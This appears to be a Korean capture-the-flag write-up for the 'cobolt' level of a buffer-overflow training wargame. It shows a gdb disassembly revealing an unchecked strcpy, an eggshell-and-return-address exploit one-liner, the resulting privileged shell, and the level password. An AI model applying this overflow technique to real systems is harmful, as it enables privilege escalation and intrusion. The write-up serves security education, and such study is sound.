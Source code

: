### Solution

gremlin 문제와 마찬가지로 해결할 수 있다.

``` gdb
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,16
0x8048436 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:	jg     0x8048453 <main+35>
0x804843c <main+12>:	push   0x80484d0
0x8048441 <main+17>:	call   0x8048350 <printf>
0x8048446 <main+22>:	add    %esp,4
0x8048449 <main+25>:	push   0
0x804844b <main+27>:	call   0x8048360 <exit>
0x8048450 <main+32>:	add    %esp,4
0x8048453 <main+35>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:	add    %eax,4
0x8048459 <main+41>:	mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:	push   %edx
0x804845c <main+44>:	lea    %eax,[%ebp-16]
0x804845f <main+47>:	push   %eax
0x8048460 <main+48>:	call   0x8048370 <strcpy>
0x8048465 <main+53>:	add    %esp,8
0x8048468 <main+56>:	lea    %eax,[%ebp-16]
0x804846b <main+59>:	push   %eax
0x804846c <main+60>:	push   0x80484dc
0x8048471 <main+65>:	call   0x8048350 <printf>
0x8048476 <main+70>:	add    %esp,8
0x8048479 <main+73>:	leave  
0x804847a <main+74>:	ret    
```

``` bash2
[gremlin@localhost gremlin]$ /tmp/eggshell/eggshell
[gremlin@localhost gremlin]$ cp /tmp/eggshell/geteggaddr ./cobol2
[gremlin@localhost gremlin]$ ./cobol2
EGG addr : 0xbffffcb5
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "A"*20+"\xb5\xfc\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAA딱
bash$ id
uid=501(gremlin) gid=501(gremlin) euid=502(cobolt) egid=502(cobolt) groups=501(gremlin)
bash$ my-pass
euid = 502
hacking exposed
```

# cobolt

password is hacking exposed

### Problem
